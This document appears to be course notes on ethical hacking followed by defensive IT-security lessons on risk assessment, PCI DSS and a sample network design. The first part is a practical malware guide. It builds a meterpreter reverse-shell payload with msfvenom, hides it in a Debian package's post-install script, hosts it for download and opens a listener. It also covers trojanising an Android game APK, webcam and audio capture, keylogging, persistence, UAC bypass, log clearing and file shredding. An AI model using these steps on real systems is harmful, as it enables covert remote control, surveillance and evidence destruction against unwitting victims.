msfvenom -a \<architecture\> -–platform \<windows|linux\> -p \<payload\>
LHOST=\<listening_host\> LPORT=\<listening_port\> -b “\x00” -f
\<exe|elf\> -o \<exe_name\>

<u>Example</u>

msfvenom -a x86 –-platform linux -p linux/x86/meterpreter/reverse_tcp
LHOST=\<kali_ip\> LPORT=8443 -b “\x00” -f elf -o malicious

Copy your malicious file to the usr/bin

cp malicious usr/bin



**Troubleshooting: Creating a payload**

If you have an encoding error – try explicitly specifying your encoder.

See encoders with: msfvenom –list encoders

Try using this one if you hit an error

Make sure the right arch/payload combination is selected…

View payloads: msfvenom –list payloads

View archs: msfvenom --list archs

#### Editing your DEB files

- **control**: This file holds information about the package.

- **md5sums**: Used to verify file integrity after installation.

- **preint**: In Debian system – used tell installer what to do before
  installing. Create if it doesn’t exist (optional).

- **postint**: In Debian system – used tell installer what to do after
  installing. Create if it doesn’t exist.

*Edit your postint file – make it a shell script to run the malicious
payload*

======================================================

\#!/bin/sh

sudo chmod 2755 /usr/bin/malicious &

sudo ./usr/bin/malicious &

exit 0

======================================================

^ Point to the malicious file that you created earlier.

Make sure postint file is executable

chmod +x mailTrojan/DEBIAN/postint

#### Compiling and listening

**Compile your exe into a .deb file**

dpkg-deb -–build \<path_to_exe_files\>

Example:

dpkg-deb -–build ~/Desktop/Malware/trojans/mailTrojan

Now you can host this file so someone can download.

python -m http.server 8080

**Listening for incoming connections**

msfconsole -q -x “use exploit/multi/handler; set PAYLOAD
linux/x86/meterpreter/reverse_tcp; set LHOST \<kali_ip\>; set LPORT
\<kali_port; run; exit -y\>

s

## Android Device Hacking

<https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery/learn/lecture/23213916#questions>

### android vm setup (optional)

**<u>\[Optional\] Install Android as VM on your PC</u>**

<https://www.osboxes.org/android-x86/>

If using virtualbox, select “New” and select “Linux -\> Other”

**Hard disk:** Choose “existing” and find the “.vdi” file you
downloaded/extracted:

**<u>Graphics:</u>** At least 40MB and graphics controller should be
“VBoxSVGA”

### \[payload\] Using evildroid (preferred)

Tut:
<https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery/learn/lecture/23213932#questions>

Source code: <https://github.com/M4sc3r4n0/Evil-Droid>

Clone repo and run evil-droid with sudo.

### \[payload\] Using meterpreter/msfvenom (not preferred)

#### Create payload (apk) with msfvenom 

#### Host your payload

You can host your payload by moving your payload into the default apache
folder (since an apache web server is already ready to go in kali linux
out-the-box:

Or you can spin up a simple http web server with python, or go ahead
with a full fleged web server.

#### Listen for incoming connections

Set handler

Set options

Wait for a new connection/session



### Ngrok

**<u>Install</u>**

<https://ngrok.com/>

**<u>Run</u>**

**<u>Create payload</u>**

**<u>Start multi/handler</u>**

**<u>Listen for connections</u>**

### \[trojan\] Make flappybird trojan

<https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery/learn/lecture/23213936#questions>

#### step 1: Google and download flappybird APK

Example: **flappybird-1-3-en-android.pk**

#### step 2: inject payload into your apk

*Format*

msfvenom -x \<apk\> -p \<payload\> LHOST=\<kali_ip\> LPORT=\<kali_port\>
-o \<output_file\>

*example*

##### Troubleshooting

If the above throws this error….

Steps to follow

- remove apktool

  - 

- Install

  - <https://github.com/iBotPeaches/Apktool>

  - 

# Post-Exploitation

## Meterpreter Cheat Sheet

In the help menu, check out the “system commands” section in particular
as well as “user interface commands”.

If you need to try other modules background your current meterpreter
session

If a module requires the “session” option, use the “sessions” command to
list the running sessions and set the session option to the running
meterpreter session.

Example:

set session 1

**<u>User interface commands</u>**

**<u>Webcam</u>**

**<u>Clear logs</u>**

**<u>Execute command</u>**

Can be used to run any terminal commands – for example, starting
calculator application.

**<u>Record audio</u>**

**<u>Search files by type</u>**

Use “search -h” to see other useful search methods.

**<u>See all post-explitation modules</u>**

In mfsconsole run: search post/windows

search post/windows

## Elevating Privileges (meterpreter) 

### Bypassing windows UAC

<https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery/learn/lecture/22279934#overview>

**<u>Step1: Background your current meterpreter session</u>**

**<u>Step2: Search bypassing modules</u>**

Find a module with “/windows/local” because these would run on the host.

**<u>Step3: Use your found module and set payload</u>**

Can run “show info” for more info and use “show options” to see the
options of your selected payload.

**<u>Step4: Start secondary session and run exploit</u>**

^ note, without escalating privileges the “get system” command would
have failed.

## Creating Persistence on a system

<https://www.udemy.com/course/complete-ethical-hacking-bootcamp-zero-to-mastery/learn/lecture/22279944#questions>

In msfconsole…

Common windows one

Running a persistence module will open a shell session as usual, but
will make this one persistent.

So if the systems reboots, you can start the multi/handler to being
listening

*Set proper same payload settings as before (i.e., make sure you are
listening on the same ip/port as before this way your deployed payoad
can reconnect)*

Then run the listener.

If the machine is still off/rebooting it will look like this

But as soon as the machine is online…

And bam – you have a new session

## Backdoors (rootkits)

Dbd rootkit

<https://github.com/gitdurandal/dbd>

## Extracting Data

## Keylogging (with meterpreter)

**<u>Start Key Logger</u>**

Run ‘keyscan start’.

**<u>Print current logged data</u>**

Run ‘keyscan dump’.

## Removing traces

### Purging files (shred)

**Best if keeping file:**

sudo shred –vzfn 10 /dir/file

**Best if removing file:**

sudo shred –vzfun 10 /dir/file

# Purple team

# White Team

# Review and quizzes

## Quiz (Attacks, Threats, and Vulnerabilities)





## Quiz questions II

## Case sample: Creating a Company Culture for Security

### Measuring and assessing risk

We've covered Security Risk Assessment a little bit in the last lesson.
But there's lots more to talk about. Security is all about determining
risks or exposure understanding the likelihood of attacks; and designing
defenses around these risks to minimize the impact of an attack. This
thought process is actually something that everyone uses in their daily
life, whether they know it or not. Think of when you cross a busy
intersection, you assess the probability of being hit by an oncoming car
and the minimize that risk by choosing the right time to cross the road.
Security risk assessment starts with threat modeling. First, we identify
likely threats to our systems, then we assign them priorities that
correspond to severity and probability. We do this by brainstorming from
the perspective of an outside attacker putting ourselves in a hackers
shoes. It helps to start by figuring out what high value targets an
attacker may want to go after. From there, you can start to look at
possible attack vectors that could be used to gain access to high value
assets. High-value data usually includes account information, like
usernames and passwords. Typically, any kind of user data is considered
high value, especially if payment processing is involved. Another part
of risk measurement is understanding what vulnerabilities are on your
systems and network. One way to find these out is to perform regular
vulnerabilities scanning. There are lots of open source and commercial
solutions that you can use. They can be configured to perform scheduled,
automated scans of designated systems or networks to look for
vulnerabilities. Then they generate a report. Some of these tools are
Nessus, OpenVas and Qualys which I've linked to in the next reading. Let
me break down what vulnerability scanners do. Heads up, this might be a
little dense, so feel free to go over it again. Vulnerability scanners
are services that run on your system within your control that conduct
periodic scans of configure networks. The service then conducts scans to
find and discover hosts on the network. Once hosts are found either
through a ping sweep or port scanning more detailed scans are run
against discovered hosts scans, upon scans, upon scans. A port scan of
either common ports or all possible valid ports is conducted against
discovered hosts to determine what services are listening. These
services are then probed to try to discover more info about the type of
service and what version is listening on the relevant port. This
information can then be checked against databases of known
vulnerabilities. If a vulnerable version of a service is discovered, the
scanner will add it to its report. Once the scan is finished the
discovered vulnerabilities and hosts are compiled in a report, that way
and analysts can quickly and easily see where the problem areas are on
the network. Found vulnerabilities are prioritized according to
severity, and other categorization. Severity takes into account a number
of things, like how likely the vulnerability is to be exploited. It also
considers the type of access the vulnerability would provide to an
attacker and whether or not it can be exploited remotely or not.
Vulnerabilities and the report will have links to detailed and disclosed
information about the vulnerability. In some cases, it will also have
recommendations on how to get rid of it. Vulnerability scanners will
detect lots of things, ranging from misconfigured services that
represent potential risks, to detecting the presence of back doors and
systems. It's important to call out that vulnerability scanning can only
detect known and disclose vulnerabilities and insecure configurations.
That's why it's important for you to have an automated vulnerability
scan conducted regularly. You'll also need to keep the vulnerability
database up to date, to make sure new vulnerabilities are detected
quickly. But vulnerability scanning isn't the only way to put your
defenses to the test. Conducting regular penetration tests is also
really encouraged to test your defenses even more. These tests will also
ensure detection and alerting systems are working properly. Penetration
Testing is the practice of attempting to break into a system or network
to verify the systems in place. Think of this as playing the role of a
bad guy, for educational purposes. This exercise isn't designed to see
if you have the acting chops it's intended to make you think like an
attacker and use the same tools and techniques they would use. This way,
you can test your systems to make sure they protect you like they're
supposed to. The results of the penetration testing reports will also
show you, where weak points or blind spots exist. These tests help
improve defenses and guide future security projects. They can be
conducted by members of your in-house security team. If your internal
team doesn't have the resources for this exercise you can hire a third
party company that offers penetration testing as a service. You can even
do both. That would help give you more perspectives on your defense
systems and you'll get a more comprehensive test this way.

### Security Goals

Congratulations. You've reached the last chunk of the last course of
this program. You are totally ready to lock down every single operation
of your organization and make it airtight. Right? Not quite. If you're
responsible for an organization of users, there's a delicate balance
between security and user productivity. We've seen this balance in
action when we dove into the different security tools and systems
together. Before you start to design a security architecture, you need
to define exactly what you like it to accomplish. This will depend on
what your company thinks is most important. It will probably have a way
it wants different data to be handled and stored. You also need to know
if your company has any legal requirements when it comes to security. If
your company handles credit card payments, then you have to follow the
PCI DSS or Payment Card Industry Data Security Standard depending on
local laws. We'll take a closer look at PCI DSS which is a great example
of clearly defined security goals. PCI DSS is broken into six broad
objectives, each with some requirements. The first objective is to build
and maintain a secure network and systems. This includes the
requirements to install and maintain a firewall configuration to protect
cardholder data and to not use vendor supply default for system
passwords and other security parameters. As you can tell, the
requirements are related to the objective. The objective is the end goal
or what we'd like to achieve and the requirements are the actions that
can help achieve that goal. PCI DSS goes into more detailed actions for
each requirement. It provides more specific guidance around what a
firewall configuration should control. For example, a secure firewall
configuration should restrict connections between untrusted networks and
any systems in the cardholder data environment. That's a little generic,
but it does give us some guidance on how to meet the requirements. The
second objective category is to protect cardholder data. In this
objective, the first requirement is to protect stored cardholder data.
The second is to encrypt the transmission of cardholder data across open
public networks. I want to call out again how the broad objective is to
protect sensitive data that's stored in systems within our control. The
requirements give us specific guidelines on how to get this done. The
specifics of these requirements help clarify some of the points like
what constitutes an open network. They also recommend using strong
cryptography and offer some examples. But not all requirements are
technical in nature. Let's look at the requirement to protect stored
cardholder data for example, it has requirements for data retention
policies to make sure that sensitive payment information isn't stored
beyond the time it's required. Once payment is authorized,
authentication data shouldn't be needed anymore and it should be
securely deleted. This highlights the fact that good security defenses
aren't just technical in nature. They are also procedural and
policy-based. The third objective is to maintain a vulnerability
management program. The first requirement is to protect all systems
against malware and regularly update antivirus software or programs. The
second is to develop and maintain secure systems and applications.
You'll find more detailed implementation procedures within these
requirements. They'll cover things like ensuring all systems have
antivirus software installed and making sure this software is kept up to
date. They also require that scans are run regularly and logs are
maintained. There are also requirements for ensuring systems and
software are protected against known vulnerabilities by applying
security patches at least one month from the release of a security
patch. Use of third-party security vulnerability databases is also
listed to help identify known vulnerabilities within managed systems.
The fourth objective is to implement strong access control measures.
This objective has three requirements. The first is to restrict access
to cardholder data by business need-to-know. The second is to identify
and authenticate access to system components. And the third is to
restrict physical access to cardholder data. This highlights the
importance of good access control measures along with good data access
policies. The first objective, restricting access to data by business
need-to-know, means that any sensitive data should be directed to data
access policies to make sure that customer data isn't misused. Part of
this requirement is to enforce password authentication for system access
and two factor authentication for remote access, that's the minimum
requirement. Another important piece highlighted by the PCI DSS
requirements is access control for physical access. This is a critical
security aspect to keep in mind since we need to protect systems and
data from both physical theft and virtual attacks. The fifth objective
is to regularly monitor and test networks. The first requirement is to
track and monitor all access to network resources and cardholder data.
The second is to regularly test security systems and processes. The
requirement for network monitoring and testing is another essential part
of a good security plan. This refers to things like setting up and
configuring intrusion detection systems and conducting vulnerability
scans of the network which will cover a bit more later. Testing defenses
is another super important part of this. Just having the systems in
place isn't enough. It's really helpful to test defense systems
regularly to make sure that they provide the protection that you want.
It also ensures that the alerting systems are functional. But don't
worry, we'll dive deeper into this a little bit later when we cover
penetration testing. The sixth and final objective is to maintain an
information security policy. It only has one requirement, to maintain a
policy that addresses information security for all personnel. This
requirement addresses why we need to have well-established security
policies. They help govern and regulate user behavior when it comes to
information security aspects. It's important to call out that this
requirement mentions that the policy should be for all personnel. The
responsibility of information security isn't only on the security teams.
Every member of an organization is responsible for information security.
Well-designed security policies address the most common questions or use
cases that users would have based on the specific details of the
organization. Every one that uses systems on your organization's
network, is able to get around security. They might not mean to, but
they can reduce the overall security with their actions and practices.
That's why having well-thought-out security policies in place also need
to be easy to find, and easy to read. We'll cover more details about
user education and getting users involved in the overall security plan
in another upcoming video of this course.

### **Final Project - Sample Submission**

#### Authentication

Authentication will be handled centrally by an LDAP server and will
incorporate One-Time Password generators as a 2nd factor for
authentication.

#### External Website

The customer-facing website will be served via HTTPS, since it will be
serving an e-commerce site permitting visitors to browse and purchase
products, as well as create and log into accounts. This website would be
publically accessible.

#### Internal Website

The internal employee website will also be served over HTTPS, as it will
require authentication for employees to access. It will also only be
accessible from the internal company network and only with an
authenticated account.

#### Remote Access

Since engineers require remote access to internal websites, as well as
remote command line access to workstations, a network-level VPN solution
will be needed, like OpenVPN. To make internal website access easier, a
reverse proxy is recommended, in addition to VPN. Both of these would
rely on the LDAP server that was previously mentioned for authentication
and authorization.

#### Firewall

A network-based firewall appliance would be required. It would include
rules to permit traffic for various services, starting with an implicit
deny rule, then selectively opening ports. Rules will also be needed to
allow public access to the external website, and to permit traffic to
the reverse proxy server and the VPN server.

#### Wireless

For wireless security, 802.1X with EAP-TLS should be used. This would
require the use of client certificates, which can also be used to
authenticate other services, like VPN, reverse proxy, and internal
website authentication. 802.1X is more secure and more easily managed as
the company grows, making it a better choice than WPA2.

#### VLANs

Incorporating VLANs into the network structure is recommended as a form
of network segmentation; it will make controlling access to various
services easier to manage. VLANs can be created for broad roles or
functions for devices and services. An engineering VLAN can be used to
place all engineering workstations and engineering services on. An
Infrastructure VLAN can be used for all infrastructure devices, like
wireless APs, network devices, and critical servers like authentication.
A Sales VLAN can be used for non-engineering machines, and a Guest VLAN
would be useful for other devices that don't fit the other VLAN
assignments.

#### Laptop Security

As the company handles payment information and user data, privacy is a
big concern. Laptops should have full disk encryption (FDE) as a
requirement, to protect against unauthorized data access if a device is
lost or stolen. Antivirus software is also strongly advised to avoid
infections from common malware. To protect against more uncommon attacks
and unknown threats, binary whitelisting software is recommended, in
addition to antivirus software.

#### Application Policy

To further enhance the security of client machines, an application
policy should be in place to restrict the installation of third-party
software to only applications that are related to work functions.
Specifically, risky and legally questionable application categories
should be explicitly banned. This would include things like pirated
software, license key generators, and cracked software.

In addition to policies that restrict some forms of software, a policy
should also be included to require the timely installation of software
patches. “Timely” in this case will be defined as 30 days from the wide
availability of the patch.

#### User Data Privacy Policy

As the company takes user privacy very seriously, some strong policies
around accessing user data are a critical requirement. User data must
only be accessed for specific work purposes, related to a particular
task or project. Requests must be made for specific pieces of data,
rather than overly broad, exploratory requests. Requests must be
reviewed and approved before access is granted. Only after review and
approval will an individual be granted access to the specific user data
requested. Access requests to user data should also have an end date.

In addition to accessing user data, policies regarding the handling and
storage of user data are also important to have defined. These will help
prevent user data from being lost and falling into the wrong hands. User
data should not be permitted on portable storage devices, like USB keys
or external hard drives. If an exception is necessary, an encrypted
portable hard drive should be used to transport user data. User data at
rest should always be contained on encrypted media to protect it from
unauthorized access.

#### Security Policy

To ensure that strong and secure passwords are used, the password policy
below should be enforced:

- Password must have a minimum length of 8 characters

- Password must include a minimum of one special character or
  punctuation

- Password must be changed once every 12 months

In addition to these password requirements, a mandatory security
training must be completed by every employee once every year. This
should cover common security-related scenarios, like how to avoid
falling victim to phishing attacks, good practices for keeping your
laptop safe, and new threats that have emerged since the last time the
course was taken.

#### Intrusion Detection or Prevention Systems

A Network Intrusion Detection System is recommended to watch network
activity for signs of an attack or malware infection. This would allow
for good monitoring capabilities without inconveniencing users of the
network. A Network Intrusion Prevention System (NIPS) is recommended for
the network where the servers containing user data are located; it
contains much more valuable data, which is more likely to be targeted in
an attack. In addition to Network Intrusion Prevention, Host-based
Intrusion Detection (HIDS) software is also recommended to be installed
on these servers to enhance monitoring of these important systems.
